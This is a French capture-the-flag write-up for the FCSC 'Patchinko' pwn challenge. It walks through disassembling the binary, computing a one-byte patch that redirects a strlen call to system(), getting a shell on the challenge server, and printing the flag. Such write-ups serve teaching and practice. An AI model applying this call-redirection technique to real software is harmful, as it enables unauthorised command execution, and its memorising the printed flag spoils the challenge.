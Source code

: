 # <center>Patchinko</center>

<center>

![](./pachinko.png)

</center>

Pour ce challenge on se retroube sur un executable qui nous demander de modifier la valeur d'un octet de celui-ci pour ensuite se lancer.

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Patchinko$ nc challenges1.france-cybersecurity-challenge.fr 4009
    ================================
    == Patchinko Gambling Machine ==
    ================================

    We present you the new version of our Patchinko Gambling Machine!
    This is a game of chance: you need to guess a 64-bit random number.
    As we have been told that it is quite hard, we help you.
    Before the machine executes its code, you can patch *one* byte of its binary.
    Choose wisely!

    At which position do you want to modify (base 16)?
    >>> aa
    Which byte value do you want to write there (base 16)?
    >>> aa
    == Let's go!
    Hello! Welcome to Patchinko Gambling Machine.
    Is this your first time here? [y/n]
    >>> y
    Welcome among us! What is your name?
    >>> saymant
    Nice to meet you saymant!
    Guess my number
    -2907621876399985308
    -2907621876399985308
    Wow, you win!! Congratulations! Contact us to claim your prize.

désassemblons l'executable pour voir ce qu'il se passe

    pwndbg> disass main
    Dump of assembler code for function main:
       0x0000000000400826 <+0>:	push   rbp
       0x0000000000400827 <+1>:	mov    rbp,rsp
       0x000000000040082a <+4>:	sub    rsp,0x60
       0x000000000040082e <+8>:	mov    rax,QWORD PTR [rip   +0x20084b]        # 0x601080 <stdout@@GLIBC_2.2.5>
       0x0000000000400835 <+15>:	mov    ecx,0x0
       0x000000000040083a <+20>:	mov    edx,0x2
       0x000000000040083f <+25>:	mov    esi,0x0
       0x0000000000400844 <+30>:	mov    rdi,rax
       0x0000000000400847 <+33>:	call   0x400700 <setvbuf@plt>
       0x000000000040084c <+38>:	lea    rdi,[rip+0x205]        #     0x400a58
       0x0000000000400853 <+45>:	call   0x4006d0 <system@plt>
       0x0000000000400858 <+50>:	lea    rdi,[rip+0x231]        #     0x400a90
       0x000000000040085f <+57>:	mov    eax,0x0
       0x0000000000400864 <+62>:	call   0x4006e0 <printf@plt>
       0x0000000000400869 <+67>:	mov    rdx,QWORD PTR [rip   +0x200820]        # 0x601090 <stdin@@GLIBC_2.2.5>
       0x0000000000400870 <+74>:	lea    rax,[rbp-0xc]
       0x0000000000400874 <+78>:	mov    esi,0x4
       0x0000000000400879 <+83>:	mov    rdi,rax
       0x000000000040087c <+86>:	call   0x4006f0 <fgets@plt>
       0x0000000000400881 <+91>:	lea    rax,[rbp-0xc]
       0x0000000000400885 <+95>:	mov    rdi,rax
       0x0000000000400888 <+98>:	call   0x4006c0 <strlen@plt>
       0x000000000040088d <+103>:	sub    rax,0x1
    
       ...

On voit alors qu'on passe par un call de la fonction system() et un call de la fonction de strlen, tout deux dans la PLT. On voit aussi que le fgets() ne prends en compte que 0x4 octets (on ne va donc pouvoir rentrer que 4 charactères à cet endroit). Prenons l'adresse de cette fonction system()

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Patchinko$ objdump -d patchinko.bin | grep system
    00000000004006d0 <system@plt>:
      4006d0:	ff 25 62 09 20 00    	jmpq   *0x200962(%rip)        # 601038  <system@GLIBC_2.2.5>
      400853:	e8 78 fe ff ff       	callq  4006d0 <system@plt>

OK donc system se trouve à 0x4006d0.

On va d'arranger pour modif le strlen() par un system(), on sait donc qu'on devra modifier le 889e byte car dans l'executable desassemblé nous pouvons voir que strlen() se trouve au 889e octet (0x0000000000400888 + 1 pour arriver sur le strlen), il ne nous reste plus qu'à trouver quelle valeur nous allons mettre à cette adresse.

On va alors chercher cette valeur juste en calculant la distance qu'il y a entre le call de system et l'adresse de l'instruction qui suit le call de strlen (la du call de strlen)

    pwndbg> p/x 0x000000000040088d-0x00000000004006d0
    $7 = 0x1bd
    pwndbg> p/x 0x1000-0x1bd
    $8 = 0xe43

La valeur est donc 0x43. Testons ça !

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Patchinko$ nc challenges1.france-cybersecurity-challenge.fr 4009
    ================================
    == Patchinko Gambling Machine ==
    ================================

    We present you the new version of our Patchinko Gambling Machine!
    This is a game of chance: you need to guess a 64-bit random number.
    As we have been told that it is quite hard, we help you.
    Before the machine executes its code, you can patch *one* byte of its binary.
    Choose wisely!

    At which position do you want to modify (base 16)?
    >>> 889
    Which byte value do you want to write there (base 16)?
    >>> 43
    == Let's go!
    Hello! Welcome to Patchinko Gambling Machine.
    Is this your first time here? [y/n]
    >>> ls
    flag
    patchinko.bin
    patchinko.py
    Is this your first time here? [y/n]
    >>> cat flag

On arrive bien à executer la commande 'ls' mais on arrive pas à cat le flag, bizarre ...
Ah oui, c'est car comme nous l'avons vu dans l'analyse statique du binaire, le fgets ici ne va prendre que 4 charactères en compte (3 en fait car 3 + le null byte = 4 octets) essayons alors de pop un shell avec la commande 'sh'

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Patchinko$ nc challenges1.france-cybersecurity-challenge.fr 4009
    ================================
    == Patchinko Gambling Machine ==
    ================================
    
    We present you the new version of our Patchinko Gambling    Machine!
    This is a game of chance: you need to guess a 64-bit random     number.
    As we have been told that it is quite hard, we help you.
    Before the machine executes its code, you can patch *one*   byte of its binary.
    Choose wisely!
    
    At which position do you want to modify (base 16)?
    >>> 889
    Which byte value do you want to write there (base 16)?
    >>> 43
    == Let's go!
    Hello! Welcome to Patchinko Gambling Machine.
    Is this your first time here? [y/n]
    >>> sh
    ls
    flag
    patchinko.bin
    patchinko.py
    cat flag
    FCSC    {b4cbc07a77bb0984b994c9e34b2897ab49f08524402c38621a38bc447510   2998}
    
Voici donc notre flag ;)
